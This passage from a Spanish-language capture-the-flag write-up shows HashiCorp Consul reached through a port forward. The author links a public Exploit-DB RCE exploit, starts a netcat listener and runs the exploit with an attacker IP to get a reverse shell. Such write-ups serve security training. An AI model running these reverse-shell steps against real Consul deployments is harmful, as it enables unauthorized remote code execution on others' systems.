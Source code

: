 Probando de acceder a http://127.0.0.1:8500, logramos acceder a un sitio web de `Hashicorp Consul`.

{% hint style="info" %}
HashiCorp Consul es una solución de redes de servicios que permite a los equipos gestionar la conectividad de red segura entre servicios y entre entornos locales y multicloud y tiempos de ejecución. Consul ofrece detección de servicios, malla de servicios, gestión de tráfico y actualizaciones automáticas para dispositivos de infraestructura de red. Puede utilizar estas funciones de forma individual o en conjunto en una única implementación de Consul.
{% endhint %}

<figure><img src="../../.gitbook/assets/imagen (259).png" alt=""><figcaption></figcaption></figure>

### Hashicorp Consul v1.0 - Remote Code Execution (RCE)

Buscando vulnerabilidades sobre la aplicación, nos encontramos con el siguiente exploit para obtener un RCE.

{% embed url="https://www.exploit-db.com/exploits/51117" %}

Nos ponemos en escucha por un puerto para recibir la Reverse Shell.

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
```

Ejecutamos el exploit sobre nuestro localhost en el puerto 8500 (debido que hemos realizado anteriormente el Port Forwarding) y especificamos nuestra dirección IP y el puerto donde vamos a estar en escucha.

```bash
❯ python3 exploit.py 127.0.0.1 8500 10.10.16.5 443 0

[+] Request sent successfully, check your listener
```
